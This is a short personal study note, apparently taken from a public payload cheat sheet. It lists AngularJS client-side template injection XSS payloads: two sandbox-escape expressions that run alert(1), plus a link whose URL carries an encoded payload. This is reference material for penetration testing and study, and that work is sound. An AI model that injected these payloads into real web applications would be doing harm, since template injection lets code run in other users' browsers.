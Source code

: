 ```yaml
---
id: XSS
created_date: 18/10/2022
updated_date: 18/10/2022
type: note
---
```


#  XSS
- **🏷️Tags** :  #10-2022 

## 📝 Notes
# XSS in Angular and AngularJS

  

## Client Side Template Injection

  

The following payloads are based on Client Side Template Injection.

  

### Stored/Reflected XSS - Simple alert in AngularJS

  

> AngularJS as of version 1.6 have removed the sandbox altogether

  

AngularJS 1.6+ by [Mario Heiderich](https://twitter.com/cure53berlin)

  

```javascript

{{constructor.constructor('alert(1)')()}}

```

  

AngularJS 1.6+ by [@brutelogic](https://twitter.com/brutelogic/status/1031534746084491265)

  

```javascript

{{[].pop.constructor&#40'alert\u00281\u0029'&#41&#40&#41}}

```

  

Example available at [https://brutelogic.com.br/xss.php](https://brutelogic.com.br/xss.php?a=<brute+ng-app>%7B%7B[].pop.constructor%26%2340%27alert%5Cu00281%5Cu0029%27%26%2341%26%2340%26%2341%7D%7D)
